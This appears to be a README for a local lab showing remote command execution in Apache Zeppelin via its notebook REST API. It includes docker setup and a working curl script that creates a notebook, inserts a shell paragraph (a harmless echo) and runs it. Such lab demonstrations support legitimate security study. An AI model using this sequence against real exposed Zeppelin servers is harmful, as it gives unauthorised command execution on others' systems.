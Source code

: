 # Apache Zeppelin RCE via Notebook API

1. Create docker container with Apache Zeppelin Notebook:
   ```bash
    docker build -t zeppelin-pyspark .
    ```
2. Run the following command to start Zeppelin Notebook
    ```bash
    docker run --name zeppelin-exposed-RCE --rm -p 8080:8080 zeppelin-pyspark
    ```
```bash
# 1. Create a new notebook and capture its ID
NOTEBOOK_ID=$(curl -X POST http://localhost:8080/api/notebook \
  -H "Content-Type: application/json" \
  -d '{"name": "Bash Command Example"}' | jq -r '.body')

echo "Created notebook with ID: $NOTEBOOK_ID"

# 2. Create a paragraph with our bash command
PARAGRAPH_ID=$(curl -X POST "http://localhost:8080/api/notebook/$NOTEBOOK_ID/paragraph" \
  -H "Content-Type: application/json" \
  -d '{"title": "Echo Command", "text": "%sh\necho '\''hello RCE'\''"}' | jq -r '.body')

echo "Created paragraph with ID: $PARAGRAPH_ID"

# 3. Run the paragraph
curl -X POST "http://localhost:8080/api/notebook/job/$NOTEBOOK_ID/$PARAGRAPH_ID"
echo "Executing paragraph..."

# 4. Wait a moment for execution to complete
sleep 2

# 5. Get the paragraph results to see the output
curl -X GET "http://localhost:8080/api/notebook/$NOTEBOOK_ID/paragraph/$PARAGRAPH_ID" | jq '.body.results.msg[0].data'

```

Reference:
- Zeppelin Notebook API: https://zeppelin.apache.org/docs/0.12.0/usage/rest_api/notebook#add-cron-job